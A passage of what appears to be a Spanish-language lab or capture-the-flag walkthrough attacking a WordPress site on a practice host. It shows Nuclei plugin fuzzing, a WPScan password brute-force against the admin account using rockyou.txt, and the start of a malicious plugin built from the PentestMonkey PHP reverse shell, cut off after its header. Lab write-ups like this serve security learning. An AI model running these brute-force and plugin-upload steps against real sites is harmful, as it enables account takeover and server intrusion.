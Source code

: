 # REFERENCIA Y APRENDIZAJE

---

Siguiendo con la enumeración de plugins, en este caso se utilizará Nuclei para identificar los plugins existentes en la instalación de WordPress.

```bash
nuclei -u http://escolares.dl/wordpress/ -itags fuzz -t /root/.local/nuclei-templates/http/fuzzing/wordpress-plugins-detect.yaml
```

Dado que **`nuclei`** realiza un fuzzing de plugins, el proceso tiende a demorar. 

Durante el reconocimiento, se encontraron 2 plugins instalados, y Nuclei nos proporcionó la versión de dichos plugins, lo cual podemos aprovechar para intentar escalar privilegios.


![image](https://github.com/user-attachments/assets/671ea35d-7974-4168-b338-c38fddded236)


---
 
Continuando con la enumeración, ya que encontramos un usuario, realizaremos un ataque de fuerza bruta utilizando **`WPScan`** con el usuario **`admin`**, identificado previamente con la misma herramienta.

```bash
wpscan --url http://escolares.dl/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt 
```


![image](https://github.com/user-attachments/assets/30e6a481-b2d1-4074-8f86-56251586661f)


¡BINGO! Ahora que tenemos la contraseña del usuario admin, podemos autenticarnos en el panel de administración de WordPress.

Al ingresar las credenciales, se muestra la siguiente ventana, en la cual haremos clic en "Recuérdamelo más tarde" 


![image](https://github.com/user-attachments/assets/d85b4c0a-4664-4ba4-abf5-6a2da7d324f4)


¡Y pa dentro! Ahora estamos en el panel de control de WordPress.


![image](https://github.com/user-attachments/assets/598a5aba-4111-4630-bf89-1d25a47bc2da)


Ahora procederemos a ir al apartado de Plugins para comprobar si el sistema nos permite subir un plugin malicioso y así poder ganar acceso a la máquina víctima.

Procederemos a crear un plugin malicioso ayudándonos de la reverse shell de PentestMonkey, el cual adaptaremos para que WordPress lo reconozca como un plugin.

Creamos un fichero llamado revPlugin.php cuyo contenido sera lo siguiente:

```bash
<?php
/*
Plugin Name: Reverse Shell Plugin
Plugin URI: https://github.com/SkyW4r33x
Description: Plugin RevShell
Version: 1.0
Author: SkyW4r33x
Author URI: https://github.com/SkyW4r33x
License: GPL2
*/
set_time_limit (0);
$VERSION = "1.0";
```